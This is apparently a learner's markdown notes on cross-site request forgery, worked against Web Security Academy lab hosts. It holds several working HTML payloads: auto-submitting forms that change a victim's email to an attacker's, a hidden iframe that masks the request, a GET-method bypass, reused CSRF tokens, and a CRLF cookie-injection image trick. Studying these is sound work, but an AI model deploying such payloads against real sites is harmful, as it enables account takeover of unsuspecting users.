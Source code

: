 # Enumeration
```python
- check for the rules of the web server - SOP, CORS, SameSite Cookie, Referer, Origin.
```


# Craft a malicious request
- when victim user load this html, it will automatically submit the forms that request a POST HTTP method to vulnerable to CSRF web server and they will redirect to that website. Use iframe if you do not want them to redirect.


```html
<html>
	<body>
		<h1>The website is under construction.</h1>
		<form method="POST" action="vulnerable@website.com">
			<input type="hidden" name="email" value="attackermail@gmail.com"/>
		</form>

		<script>
			document.forms[0].submit();
		</script>

	</body>
</html>
```


# Using iframe to avoid redirect
- when a victim visits this website, it will request to the vulnerable website but it will load to the iframe which the display is set to none, they will only see the h1 tag.

```python
<html>
	<body>
		<h1>The website is under construction.</h1>
		<iframe style="display: none" name="csrf_iframe"></iframe>
		<form method="POST" action="https://vulnerable@website.com" target="csrf_iframe">
			<input type="hidden" name="email" value="attackermail@gmail.com"/>
		</form>

		<script>
			document.forms[0].submit();
		</script>

	</body>
</html>
```



# Used other HTTP method
```python
>> check if other HTTP method such as GET request can bypass some CSRF defense
	- craft empty form's tag, but change the method to GET request and put all the data on input type hidden

<html>
	<body>
		<h1>The website is under construction.</h1>
		<form method="get" action="https://0a1f007804a09ca0840cc3c700e60044.web-security-academy.net/my-account/change-email">
                        <input type="hidden" name="email" value="anotheremail@gmail.com"/>
		</form>
		<script>
			document.forms[0].submit();
		</script>

	</body>
</html>

```

# CSRF token not validated
```python
- an application can be misconfigured like checking if it is only set else it would not reject the request rather accept it and bypass that CSRF token.
- craft a malicious request without the CSRF token in input tag
```

# CSRF token is not tied to user's session
```python
- other application find specific token to a pool of tokens which can be bypass by using their token as a valid CSRF token.
- the application always change the CSRF token, so logging in to the website and get your CSRF token which can be used to perform CSRF attack.


<html>
	<body>
		<h1>The website is under construction.</h1>
		<form method="post" action="https://0abb00d004c9494885862c8000b10080.web-security-academy.net/my-account/change-email">
                        <input type="hidden" name="email" value="attacker@email.net"/>
                        <input type="hidden" name="csrf" value="Aq425nuptr7QypXK1461FdaBOmk1LQNp"/>
		</form>
		<script>
			document.forms[0].submit();
		</script>
	</body>
</html>

```



# CSRF token is tied to non-session cookie 
```python
- CSRF token on a cookie but the application allows to inject or overwrite a cookie 
- the application also does not check if the CSRF token is for specific user.



<html>
	<body>
		<h1>The website is under construction.</h1>

		<form method="POST" action="https://0a8200340482837680bd1cd7006e0000.web-security-academy.net/my-account/change-email">
                        <input type="hidden" name="email" value="newattackermail@kjasdfhjk.com"/>
                        <input type="hidden" name="csrf" value="EvvoJyUA6a7O3V62IqNUgiJAV6QFWmOF"/>
		</form>

<img src="https://0a8200340482837680bd1cd7006e0000.web-security-academy.net/?search=searchValue%0D%0Aset-cookie%3acsrfKey%3dEx9sHOZvkuuuwP3vjOQOWRv79vWWs5e5%3bsamesite=none" onerror="document.forms[0].submit();"/>

		
	</body>
</html>
```


# CSRF duplicated on form and cookie
```python
- the application has a vulnerability where it did not validated if the CSRF token is from specific user
- it also has a vulnerability where an attacker can inject/overwrite/change their own CSRF token in the cookie.

- code example are the same as above but the CSRF token is the same from GET and POST requests.

```







# Other
```python
- CSRF token can be leak via GET request that can save to server log, client browser history.
- 
```

# Question
```python
- why adding custom http header using javascript is more secure than putting the csrf token in hidden field form. - because it automaticaly subject to origin policy - why this.
- why changing the csrf token every valid request to the server can harm the user experience and not ideally to implement.
- 

```



















